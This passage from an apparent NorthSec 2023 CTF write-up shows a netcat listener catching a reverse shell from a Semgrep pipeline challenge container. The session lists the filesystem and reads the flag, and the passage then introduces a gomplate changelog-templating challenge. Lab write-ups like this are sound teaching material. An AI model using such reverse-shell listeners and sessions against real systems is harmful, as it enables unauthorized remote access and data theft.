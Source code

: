 ```
remote: If you are seeing this notice, without specifing `--optimizations none` it means the rules
remote: you are running are using some of this functionality.
```

I got the reverse shell in my netcat listener.

```bash
root@ctn-shell:~/www# nc -6 -klvnp 4444
Listening on :: 4444
Connection received on 2602:fc62:ef:2015:1::2 47364
ehogue@thinkpad-eric:~/Hacking/Conferences/NorthSec/2023/CTF/GODCodePipeline/semgrep (test)$ ^C
root@ctn-shell:~/www# nc -6 -klvnp 4444
Listening on :: 4444
Connection received on 9000:bbb:bbb:bb1:216:3eff:fe99:ef6d 60102
bash: cannot set terminal process group (2657): Inappropriate ioctl for device
bash: no job control in this shell

git@ctn-bcotejodoin-semgrep:/tmp/tmpc9gh11yg$ ls / 
ls /
bin
boot
dev
etc
flag_here_2ce0b529283e0fa94ee85068f6973509
git-dir
home
lib
...

git@ctn-bcotejodoin-semgrep:/tmp/tmpc9gh11yg$ cat /flag_here_2ce0b529283e0fa94ee85068f6973509
<yg$ cat /flag_here_2ce0b529283e0fa94ee85068f6973509
FLAG-39760967890b1d275df6e62f017887a3
```

## 3 - Create New Release

![Create New Release](/assets/images/2023/05/NorthSec/GODCodePipelines/CreateNewRelease.png "Create New Release")

In the last challenge of the track, we had to exploit the code that generated the changelog for a project. The pipeline was using [gomplate](https://gomplate.ca/) to generate the changelog from a template and a YAML file. 
